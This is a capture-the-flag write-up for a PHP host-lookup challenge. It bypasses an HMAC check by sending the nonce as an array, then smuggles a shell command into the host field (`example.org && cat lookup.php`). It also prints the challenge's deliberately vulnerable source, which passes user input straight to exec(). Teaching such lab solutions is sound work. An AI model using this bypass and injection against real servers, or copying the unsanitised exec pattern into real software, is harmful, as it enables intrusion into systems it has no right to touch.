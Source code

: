 # Flaky Host writeup

We are presented with a simple website to lookup the host of a domain.
The `host` and `HMAC` field are required. When filling in the fields and submitting them with random data we get the following error:
```
An authentication error has occured!
```

There is also a optional nonce field. When also filling it with random data we receive the same error.

We know that the site is written in PHP. We also know that the `HMAC` is generated with the `host` as input.

When searching for `PHP HMAC` we find the PHP documentation for the `hash_hmac` function.
It has the folowing parameters. `algorithm`, `data` and `key`. 

It's safe to assume that the algorithm is `sha256` or something similar, not feasible to bruteforce. We also do not have the key so we are stuck.

Let's look back at the website. We haven't yet looked at the `nonce` but we probably have to use that. The flavortext tells us that friends may access the website also. The nonce is thus used as a `key`. The nonce can't just be used a `key` because this would allow to just enter anything. So the `key` is probably the HMAC of the nonce.

Let's look at `hash_hmac` vulnerabilities. After some searching we find that entering an array as data, `hash_hmac` will return `NULL`;
This is really helpful because that means that we can generate the HMAC of host ourselves because the key will be NULL.

We generate the HMAC of `example.org`:
```php
hash_hmac('sha256', 'example.org', NULL);
# 63d83b26b3803459afbc44c1439eed5e94113101b82b7f71d29103b139674c7f
```
So we edit the POST request like this:
```
host=example.org&hmac=63d83b26b3803459afbc44c1439eed5e94113101b82b7f71d29103b139674c7f&nonce[]
```

Or when encoded
```
host=example.org&hmac=63d83b26b3803459afbc44c1439eed5e94113101b82b7f71d29103b139674c7f&nonce%5B%5D=
```
Make sure to remove the `Content-Length` header otherwise it won't work.

Success! We receive the following:
```
example.org has address 93.184.216.34
example.org has IPv6 address 2606:2800:220:1:248:1893:25c8:1946
```

So now we can try to exploit the host parameter.

We take as host `example.org && cat lookup.php` and calculate the hmac like so:
```php
echo hash_hmac('sha256', 'example.org && cat lookup.php', null);
# 00dd5be088d0db9fc120681528cba5123040c3f06bf562c8952c80dadd18c49a
```

This is the output we get:
```
example.org has address 93.184.216.34
example.org has IPv6 address 2606:2800:220:1:248:1893:25c8:1946
session_start();

if (empty($_POST['hmac']) || empty ($_POST['host'])) {
$_SESSION['error'] = 'Please enter a Host and key!';
header('Location: /');
exit();
}

$secret = 'FLG{55e650abd14d9069c6a053f606f3925ef8619854feb7}';

if (isset($_POST['nonce'])) {
$secret = hash_hmac('sha256', $_POST['nonce'], $secret);
}

$hmac = hash_hmac('sha256', $_POST['host'], $secret);

if ($hmac !== $_POST['hmac']) {
$_SESSION['error'] = 'An authentication error has occured!';
header('Location: /');
exit();
}
exec("host ".$_POST['host'], $output);
$_SESSION['result'] = $output;
header('Location: /');
exit();
```
As we can see, the secret is the flag.
